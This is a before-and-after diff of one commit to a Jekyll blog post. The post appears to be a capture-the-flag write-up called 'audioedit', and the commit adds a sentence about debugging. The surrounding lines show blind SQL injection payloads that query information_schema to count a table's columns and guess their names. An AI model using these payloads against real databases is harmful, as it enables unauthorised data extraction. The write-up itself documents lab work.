

Before and after one commit to machinexa2/machinexa2.github.io, a Jekyll site: the page built from writeups/_posts/2020-09-19-audioedit.markdown, in a window 1280 px wide and 900 px high, scrolled down 4690 px. Shown: the whole window, without its empty margins (230-1049 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
04:12:47 PM 10/04/2020

````diff
--- a/writeups/_posts/2020-09-19-audioedit.markdown
+++ b/writeups/_posts/2020-09-19-audioedit.markdown
@@ -122,7 +122,7 @@ Ah, i was tired and irritated. Took some caffeine again and got started. For num
 
 `' and 2=2 or (SELECT substr(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`
 <br>
-So, after running script i know number of columns are 5, now what. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
+So, after running script i know number of columns are 5, now what. After writing another payload to find column it errored out no matter what i used. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
 ```sql
 ' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
 ' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
````
